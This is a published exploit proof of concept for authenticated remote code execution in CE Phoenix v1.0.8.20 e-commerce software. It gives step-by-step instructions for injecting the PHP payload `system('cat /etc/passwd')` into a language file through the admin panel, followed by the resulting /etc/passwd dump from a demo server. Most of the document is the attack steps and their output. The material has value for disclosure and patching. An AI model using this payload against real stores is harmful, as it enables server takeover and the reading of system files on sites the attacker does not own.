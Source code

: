 ## Exploit Title: CE Phoenix v1.0.8.20 - Remote Code Execution (RCE) (Authenticated)
#### Date: 2023-11-25
#### Exploit Author: tmrswrr
#### Category: Webapps
#### Vendor Homepage: [CE Phoenix](https://phoenixcart.org/)
#### Version: v1.0.8.20
#### Tested on: [Softaculous Demo - CE Phoenix](https://www.softaculous.com/apps/ecommerce/CE_Phoenix)

### POC:

<img src="https://raw.githubusercontent.com/capture0x/Phoenix/main/1.png" alt="Magento Image" width="1000">
<img src="https://raw.githubusercontent.com/capture0x/Phoenix/main/2.png" alt="Magento Image" width="1000">


1. **Login to admin panel:** 
    - Visit: `https://demos6.softaculous.com/CE_Phoenixvkqhcarjmw/admin/define_language.php?lngdir=english`
    
2. **Access english.php:**
    - Click on `english.php` and inject the payload: 
    ```
    <?php echo system('cat /etc/passwd'); ?>
    ```
    
3. **Save Changes:**
    - Save the modified file.

4. **View Results:**
    - Visit the main page: `https://demos6.softaculous.com/CE_Phoenixvkqhcarjmw/`
    - You will see the following result:


root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-bus-proxy:x:999:998:systemd Bus Proxy:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:997:995::/var/lib/chrony:/sbin/nologin
soft:x:1000:1000::/home/soft:/sbin/nologin
saslauth:x:996:76:Saslauthd user:/run/saslauthd:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
emps:x:995:1001::/home/emps:/bin/bash
named:x:25:25:Named:/var/named:/sbin/nologin
exim:x:93:93::/var/spool/exim:/sbin/nologin
vmail:x:5000:5000::/var/local/vmail:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
webuzo:x:993:993::/home/webuzo:/bin/bash
apache:x:992:991::/home/apache:/sbin/nologin
apache:x:992:991::/home/apache:/sbin/nologin

